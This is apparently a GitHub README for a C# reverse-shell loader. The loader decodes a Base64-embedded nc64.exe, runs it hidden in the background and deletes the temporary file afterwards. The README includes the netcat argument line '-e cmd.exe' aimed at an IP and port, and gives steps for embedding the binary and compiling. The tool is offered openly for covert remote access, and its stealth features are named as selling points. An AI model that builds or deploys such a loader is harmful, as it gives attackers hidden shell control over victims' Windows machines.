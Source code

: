 # Reverse Shell Loader

This project provides a loader to execute a reverse shell using a Base64-encoded `nc64.exe` (Netcat for Windows). The loader decodes the Base64, writes it to a temporary file, and executes it in the background to establish a reverse shell connection to a specified IP address and port.

## Features

- **Base64 Decoding**: The loader decodes the Base64-encoded `nc64.exe` and saves it as an executable file in the temporary directory.
- **Hidden Execution**: The `nc64.exe` is executed with the specified arguments, and the terminal remains hidden (no new terminal window is opened).
- **No Blocking**: The loader does not wait for the `nc64.exe` process to finish, allowing the reverse shell to run in the background.
- **Temporary File Cleanup**: The temporary file created for the shellcode is deleted after the reverse shell is executed.

## Usage

1. **Modify the IP Address**: Open the `ReverseShellLoader.cs` file and change the IP address and port in the following line:

    ```csharp
    Arguments = "-e cmd.exe 192.168.1.147 443", // Netcat IP and port
    ```

    Replace `192.168.1.147` with your desired IP address and `443` with the port number you want to use for the reverse shell.

2. **Replace the Base64 string**: Replace the `<YOUR_BASE64_OF_NC64.EXE>` in the code with the actual Base64-encoded string of the `nc64.exe` file.

    You can generate the Base64 string of `nc64.exe` using the following command:

    ```bash
    cat nc64.exe | base64 -w 0
    ```

3. **Compile the Code**: Compile the C# code using a C# compiler or Visual Studio.

4. **Run the Loader**: Execute the compiled binary, and the reverse shell will connect to the specified IP address and port.
